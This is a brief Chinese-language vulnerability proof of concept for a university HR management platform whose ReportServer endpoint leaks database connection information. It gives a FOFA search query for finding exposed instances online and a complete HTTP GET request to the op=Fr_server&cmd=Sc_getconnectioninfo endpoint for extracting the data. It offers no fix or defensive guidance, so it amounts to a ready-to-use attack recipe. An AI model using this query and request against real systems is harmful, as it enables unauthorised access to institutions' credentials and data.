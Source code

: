 ## 影响版本

高校人力资源管理服务平台系统

高校人力资源管理服务平台系统ReportServer接口存在敏感信息泄露漏洞

## 4.fofa查询语句

body="FM_SYS_ID"||body="product/recruit/website/RecruitIndex.jsp"

## 5.漏洞复现

漏洞链接：https://xx.xx.xx.xx/ReportServer?op=Fr_server&cmd=Sc_getconnectioninfo

漏洞数据包：

```
GET /ReportServer?op=Fr_server&cmd=Sc_getconnectioninfo HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

